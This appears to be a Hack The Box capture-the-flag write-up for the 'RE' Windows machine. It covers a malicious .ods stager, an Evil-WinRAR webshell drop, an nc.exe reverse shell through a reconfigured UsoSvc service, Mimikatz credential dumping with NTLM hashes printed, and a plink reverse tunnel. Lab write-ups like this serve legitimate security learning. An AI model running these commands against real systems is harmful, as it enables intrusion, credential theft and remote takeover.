

# HTB-Grindset
# RE




### Recon phase

I use ffuf to fuzz the Host header. 

```jsx
root@ENGINEERING:/home/cbjs/htb/SecLists/Discovery/DNS# ffuf -u http://10.10.10.144 -H "Host: FUZZ.htb" -w ./subdomains-top1million-20000.txt -fs 311
```


### Mapping IP


First, I make a curl request to the IP address to see its response.

```jsx
curl -ik 10.10.10.144
```


Then, i try to curl request to re.htb

```jsx
curl -ik re.htb
```


The different responses occur because the server uses **virtual hosting**, where multiple domains (or virtual hosts) are hosted on the same IP. The server distinguishes between them using the `Host` header in HTTP requests.

1. **Request to `http://10.10.10.144`**:
    - No `Host` header is set, so the server returns the default site, which redirects to `reblog.htb`.
2. **Request to `http://re.htb`**:
    - The `Host` header is set to `re.htb`, and the server responds with content specific to the `re.htb` virtual host.

This happens because the server serves different content based on the `Host` header. You can test specific hosts using `curl`:

```bash
curl -ik -H "Host: re.htb" http://10.10.10.144
```

or

```bash
curl -ik -H "Host: reblog.htb" http://10.10.10.144
```

### **NMAP**

```bash
nmap -p- --min-rate 10000 10.10.10.144
```


**Scan Results**:

- Two open ports were discovered:
    - **Port 80 (http)**: Likely hosting a web server.
    - **Port 445 (microsoft-ds)**: Commonly associated with SMB (Server Message Block), used for file sharing and network communication.
- All other ports were filtered, meaning they did not respond or were blocked by a firewall.

**Testing out port 80**

```bash
curl -v http://reblog.htb 
```


The redirected page operates on port 80


The page contains mostly general information without any notable findings.

**Testing out port 445**

I tried out SMBMap with a random username (anonymous). The share is "malware_dropbox".


**Build payload:**

Instead of manually preparing a LibreOffice `.ods` file for social engineering, my friend created a script to automatically craft a `malicious.ods` file. Once the file is generated, we can host it using an HTTP server and set up Netcat with `rlwrap` to listen on port 666. Then, we use `smbclient` to access the target IP, where a `malware_dropbox` directory is available for uploading the file. 

```bash
python3 re-payload.py --host <listener_ip> --port <listener_port>
```

We will get 2 files when payload finish:

- `malious.ods`: stager script
- `shell.ps1`: reverse shell script


### Shell as Luke

1. **First terminal (left terminal):**
- Setup server to host file shell.ps1
    - `sudo python3 -m http.server 80`
1. Second terminal:
- Setup listener
    - `rlwrap nc -lvnp <listener_port that you use to build payload>`
1. Third terminal:
- Connect to SMB share
    - `smbclient -N //<target_ip>/malware_dropbox`


I now have Luke's shell access, but I can't read the flag since Luke doesn't have sufficient permissions. We'll need to gain root privileges to access the flag - quite the challenge! 


Then i use icalcs to reveal permissions for the IIS web server root directory, `c:\inetpub\wwwroot`

`icalcs c:\inetpub\wwwroot`


Analysing the permissions list of each user, we can see that:

- The **`cam`** user has the ability to **read, execute, and write** files in the `c:\inetpub\wwwroot` directory and its subdirectories.
- This level of access means that `cam` can potentially upload or modify files, which could impact the functionality or security of the web server if improperly managed.

Since this challenge is from 2019, it further hints that we can take advantage of exploiting the WinRAR bug to write a webshell into`DocumentRoot`

[https://github.com/manulqwerty/Evil-WinRAR-Gen](https://github.com/manulqwerty/Evil-WinRAR-Gen)

Now, we need to generate an evil WinRAR using this command and create a `shell.aspx` on victim machine.

```bash
python3 ./evilWinRAR.py -o exploit.rar -e ./shell.aspx -p 'c:\inetpub\wwwroot\re\'
```

Move exploit.rar to the directory where you have the nc running, in my case it is RE-payload


I use `Invoke-WebRequest` to download **exploit.rar** from my IP address to the victim's machine make sure you are in \Users\luke\Documents\ods.


```bash
powershell iwr [your tun0 ip]/exploit.rar -outfile exploit.rar
```

I check `re.htb/shell.aspx`


Now i check my permission on this machine, so i am running under a **low-privilege IIS Application Pool identity** with limited rights.


Now let’s escalate our privileges using every hacker's favorite tool, LinPEAS.

```bash
wget [https://github.com/peass-ng/PEASS-ng/releases/download/20241205-c8c0c3e5/winPEASx64_ofs.exe](https://github.com/peass-ng/PEASS-ng/releases/download/20241205-c8c0c3e5/winPEASx64_ofs.exe)
```


```bash
/c powershell iwr [http://10.10.14.5/winPEASEx64_ofs.exe](http://10.10.14.5/winPEASEx64_ofs.exe) -outfile c:\windows\temp\win.exe
```

Downloads **`winPEASx64_ofs.exe`** from my local machine and saves it as **`win.exe`** in the `c:\windows\temp` directory.


You can tell it is succesfull when the page is slow loading and this pop up on your http server


Execute the File and Save Output win.txt

```bash
/c c:\windows\temp\win.exe > c:\windows\temp\win.txt
```


Now we upload the win.txt from victim machine to our local machine to read linpease results

```bash
curl.exe [http://10.10.14.5:80/upload](http://10.10.14.5/upload) -F "path=/home/cbjs/htb/re/RE-payload" -F "file=@win.txt"
```


Bruh, it looks so ugly !!! 


I can remove escape characters using `sed 's/\x1B\[[0-9;]*[a-zA-Z]//g' win.txt > clean_win.txt`


### Vulnerable Service `usoSVC`

I skimmed through the text file and found that UsoSvc allows me full access to the services.


The command **`sc qc usosvc`** queries the configuration of the **Update Orchestrator Service**. It shows details like:

- **Start Type**: Auto-start (Delayed).
- **Binary Path**: Runs under `svchost.exe` with the `netsvcs` group.
- **Service Account**: Runs as **LocalSystem** (high privileges).
- **Dependencies**: Relies on **RPCSS** (Remote Procedure Call).

This service manages and schedules Windows updates.

Now we need to find a way to modify the service configuration. My idea is to change the binary path name of the service and then run nc.exe reverse shell to our machine.

We can get nc64 by using this command 

`wget [https://github.com/int0x33/nc.exe/raw/refs/heads/master/nc64.exe](https://github.com/int0x33/nc.exe/raw/refs/heads/master/nc64.exe)`

Make sure you use the address of raw.


Now we upload `nc64.exe` to window/victim machine.

```bash
iwr 10.10.14.5:80/nc64.exe -outfile nc64.exe
```


I try to cd to `\Windows\system32\inetsrv>` i tried `sc qc usosvc` 


nc doesn’t work on my webshell for some reason, so I decided to use `iwr` again on the webshell instead of the command line.

`/c powershell iwr [http://10.10.14.5:80/nc64.exe](http://10.10.14.5/nc64.exe) -outfile c:\windows\temp\nc.exe`


Now run `/c c:\windows\temp\nc.exe 10.10.14.5 6667 -e cmd.exe` on webshell to get reverse shell.


So basically, the issues was

- The reverse shell misinterprets `sc` due to PowerShell's context or restrictions.
- The `webshell` + `nc2.exe` combo gives you a clean `cmd.exe` session with proper privileges, allowing `sc` to work as expected.
- Use `C:\Windows\System32\sc.exe` or `cmd.exe /c` to force proper command execution in restricted PowerShell shells.
- The webshell uses **`System.Diagnostics.Process`**, which directly starts a child process (`cmd.exe`) with the provided arguments.
- It doesn’t rely on PowerShell's restrictions or context, so the `sc` command runs as it would from a regular CMD session.

It worked !!! lfg


Now i run this `sc config usosvc binPath= "C:\windows\temp\nc2.exe 10.10.14.5 6668  -e cmd.exe”` to reconfigure the `usosvc` service to run Netcat (`nc2.exe`).


Les Fken go, I got the strongest privilege on window `NT AUTHORITY\SYSTEM`


### Finding flag

WTF, I can't read `root.txt`. Very strange, considering we have root privileges.


It seems like the flag file might be encrypted.

https://en.wikipedia.org/wiki/Encrypting_File_System

> EFS helps protect sensitive data against unauthorized access, even if someone gains access to the file system. However, it relies on **user certificates**, which must be backed up to prevent data loss.
> 

Shell via service keeps dying, so I need to repeat the process.


- `cipher /c c:\Users\Administrator\Desktop\root.txt`
- 415E E454 C45D 576D 59C9 A0C3 9F87 C010 5A82 87E0 is tied to the user `coby`.
- The file can **only be decrypted** by `RE\coby [coby(coby@RE)]`

### Authentication attack

Now, we need to download Mimikatz using `wget` from the following link: [https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip](https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip).

Ensure that your bash shell with `nc` listening on port 6668 is in the same directory as the `x64` Mimikatz directory. You need to act quickly because the service stops running very fast. Use the following command to restart the service: `sc start usosvc` in the terminal where `nc` is listening on port 6667.

Use this command when you manage to iwr mimikatz.exe to victim machine

.\m6 or .\anything that you name and `sekurlsa::logonpasswords`


```bash
  .#####.   mimikatz 2.1.1 (x64) #17763 Dec  9 2018 23:56:50
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

sekurlsa::logonpasswords

Authentication Id : 0 ; 17122154 (00000000:0105436a)
Session           : Service from 0
User Name         : ip
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 12/17/2024 2:04:02 PM
SID               : S-1-5-82-2359649977-1374170412-3968214469-3270360982-3132161048
        msv :
        tspkg :
        wdigest :
         * Username : RE$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 99223 (00000000:00018397)
Session           : Batch from 0
User Name         : luke
Domain            : RE
Logon Server      : RE
Logon Time        : 12/16/2024 5:50:14 PM
SID               : S-1-5-21-311800348-2366743891-1978325779-1001
        msv :
         [00000003] Primary
         * Username : luke
         * Domain   : RE
         * NTLM     : 3670611a3c1a68757854520547ab5f24
         * SHA1     : cfb0c5babedce9b6d72f13f2ce205e1eb4eebd21
        tspkg :
        wdigest :
         * Username : luke
         * Domain   : RE
         * Password : (null)
        kerberos :
         * Username : luke
         * Domain   : RE
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 99022 (00000000:000182ce)
Session           : Batch from 0
User Name         : coby
Domain            : RE
Logon Server      : RE
Logon Time        : 12/16/2024 5:50:14 PM
SID               : S-1-5-21-311800348-2366743891-1978325779-1000
        msv :
         [00000003] Primary
         * Username : coby
         * Domain   : RE
         * NTLM     : fa88e03e41fdf7b707979c50d57c06cf
         * SHA1     : 7e7e2d4da4a1d6947ab286492fc3211fb70ba4c4
        tspkg :
        wdigest :
         * Username : coby
         * Domain   : RE
         * Password : (null)
        kerberos :
         * Username : coby
         * Domain   : RE
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 69688 (00000000:00011038)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 12/16/2024 5:50:13 PM
SID               : S-1-5-90-0-1
        msv :
        tspkg :
        wdigest :
         * Username : RE$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : RE$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 12/16/2024 5:50:13 PM
SID               : S-1-5-20
        msv :
        tspkg :
        wdigest :
         * Username : RE$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : re$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 39523 (00000000:00009a63)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 12/16/2024 5:50:13 PM
SID               : S-1-5-96-0-1
        msv :
        tspkg :
        wdigest :
         * Username : RE$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 17129777 (00000000:01056131)
Session           : Service from 0
User Name         : REblog
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 12/17/2024 2:04:31 PM
SID               : S-1-5-82-2254610275-2021951121-3199859428-36244052-1578526356
        msv :
        tspkg :
        wdigest :
         * Username : RE$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 17116603 (00000000:01052dbb)
Session           : Service from 0
User Name         : re
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 12/17/2024 2:03:25 PM
SID               : S-1-5-82-440528556-2424254397-1760911055-4100756970-2267462768
        msv :
        tspkg :
        wdigest :
         * Username : RE$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 340868 (00000000:00053384)
Session           : Batch from 0
User Name         : cam
Domain            : RE
Logon Server      : RE
Logon Time        : 12/16/2024 5:53:31 PM
SID               : S-1-5-21-311800348-2366743891-1978325779-1002
        msv :
         [00000003] Primary
         * Username : cam
         * Domain   : RE
         * NTLM     : 1916525df2db99ef56a75152807da93d
         * SHA1     : ae695b23e64504e5a716c1015b8c3bf8c32e3cf0
        tspkg :
        wdigest :
         * Username : cam
         * Domain   : RE
         * Password : (null)
        kerberos :
         * Username : cam
         * Domain   : RE
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 12/16/2024 5:50:14 PM
SID               : S-1-5-17
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 12/16/2024 5:50:13 PM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 69669 (00000000:00011025)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 12/16/2024 5:50:13 PM
SID               : S-1-5-90-0-1
        msv :
        tspkg :
        wdigest :
         * Username : RE$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 39492 (00000000:00009a44)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 12/16/2024 5:50:13 PM
SID               : S-1-5-96-0-0
        msv :
        tspkg :
        wdigest :
         * Username : RE$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 38562 (00000000:000096a2)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 12/16/2024 5:50:13 PM
SID               : 
        msv :
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : RE$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 12/16/2024 5:50:13 PM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : RE$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : re$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :
```

Found Coby hash


Time to crack the hash


### Lateral Movement: Pivoting

**SSH Tunneling**

We know that only ports 80 and 445 are shown through Nmap, but we want to exploit them via remote services —> no hope

So we need to run netstat -ano to list all network connections on your system that are in the "LISTENING" 


I can see some of the ports that are being listened to, such as port 5985. I can verify this by using `nc`


So we can connect to port 5985 inernally. Now let’s try to connect it outside of the system.

Firstly, we need to get plink and iwr to the server.

`wget https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe` and then `powershell iwr [your ip:port]/plink.exe -o plink.exe`

> Note that we are connecting from the server (victim machine) to our machine (attacker machine). This is because our Linux machine comes pre-installed with SSH.
> 

On victim machine run 

```bash
c:\windows\temp\plink.exe [tun0 ip] -P 2222 -l [your linux username] -pw [your linux pw] -R 5985:127.0.0.1:5985
```

If it succeeded, you would get something like this


And then run we run `evil-winrm` on attacker machine

```bash
evil-winrm -U 're\coby' -p 'championship2005' -i 127.0.0.1
```


Now just go through all the folders to find flag gg!!!

